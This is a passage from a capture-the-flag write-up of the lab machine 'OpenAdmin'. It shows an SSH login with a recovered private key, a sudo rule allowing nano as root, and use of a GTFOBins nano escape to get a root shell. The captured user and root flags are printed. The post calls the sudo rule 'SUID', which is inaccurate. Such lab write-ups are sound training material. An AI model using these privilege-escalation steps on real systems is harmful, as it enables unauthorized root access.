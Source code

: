 Then I manage to login as `joanna`.

```bash
ghost@localhost [01:12:47] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % ssh joanna@10.10.10.171 -i rsa.joanna
Enter passphrase for key 'rsa.joanna':

joanna@openadmin:~$ cat user.txt
c204e61b3a09bfe3b0675dbbdde6b744
```


# Privilege escalation

I checked `SUID` and got `nano`.

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

You can look to `GTFO` bin for privilege escalation with nano.

https://gtfobins.github.io/gtfobins/nano/

```bash
joanna@openadmin:~$ sudo /bin/nano /opt/priv

...

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
3f82551c3deb6f23a7be41bab1d673a3
```
